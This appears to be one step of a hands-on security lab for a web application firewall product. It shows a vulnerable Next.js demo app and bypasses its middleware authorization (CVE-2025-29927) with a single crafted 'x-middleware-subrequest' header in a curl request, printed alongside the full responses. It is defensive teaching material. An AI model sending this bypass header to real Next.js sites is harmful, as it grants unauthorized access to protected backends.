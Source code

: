 <!--
SPDX-FileCopyrightText: 2025 United Security Providers AG, Switzerland

SPDX-License-Identifier: GPL-3.0-only
-->

&#127919; In this step you will:

* Access the vulnerable Next.js demo application
* Bypass the Next.js authorization (CVE-2025-29927)

### Access the vulnerable Next.js demo application

> &#8987; Wait until the console on the right side shows `*** Scenario ready ***` before accessing the backend (otherwise you'll see a `HTTP 502 Bad Gateway` error)!

As outlined in [CVE-2025-29927 Next.js Authorization bypass analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/) by JFrog Security team in March 2025, we use a vulnerable Next.js demo application to demonstrate the problematic behavior.

> &#128270; Initially the backend will be accessed unprotected (not using USP Core WAAP)

While you can [access the demo application]({{TRAFFIC_HOST1_8080}}/api/hello) using a browser, you'll see a `HTTP 401` response since no authorization was sent by the browser. Note that this small demo application for simplicity accepts a specific value used as `Authorzation` Header (more details in the [demo application source code](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927/blob/main/middleware.js)).

Go ahead and make a HTTP GET request (without an authorization header) replicating the browser behavior:

```shell
curl -v http://localhost:8080/api/hello | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< content-type: application/json
< Vary: Accept-Encoding
< Date: Wed, 06 Aug 2025 14:10:05 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "error":"Unauthorized"
}
```

</details>
<br />

The application correctly responds with message "unauthorized" (combined with HTTP Status Code 401). Now presenting the (dummy) authorization header, the backend responds with data (authorization code executed in Next.js middleware):

```shell
curl -v \
  -H "Authorization: my-jwt-token-here" \
   http://localhost:8080/api/hello \
   | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Authorization: my-jwt-token-here
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:10:44 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

So far we've tested access to the backend (without USP Core WAAP protection) and verified the correct backend behavior with and without an authorization header.

### Bypass the Next.js authorization (CVE-2025-29927)

Because of CVE-2025-29927 present in multiple Next.js versions (greatly analyzed in this [blog post from JFrog](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)) not having an authorization token does not guarantee denied access to the sensitive backend!

As seen here by using vulnerable Next.js version 14 (up to 14.2.24) where one can send a static HTTP header **completely bypassing the Next.js Middleware authorization**:

```shell
curl -v \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
  http://localhost:8080/api/hello \
  | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:09:11 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

Without an authorization header this request got access to the "sensitive" area completely bypassing the Next.js middleware authorization code!

Now let's see how [header filtering](https://docs.united-security-providers.ch/usp-core-waap/crd-doc/#corewaapservicespecheaderfiltering) **provided by USP Core WAAP** safeguards you in the next step!

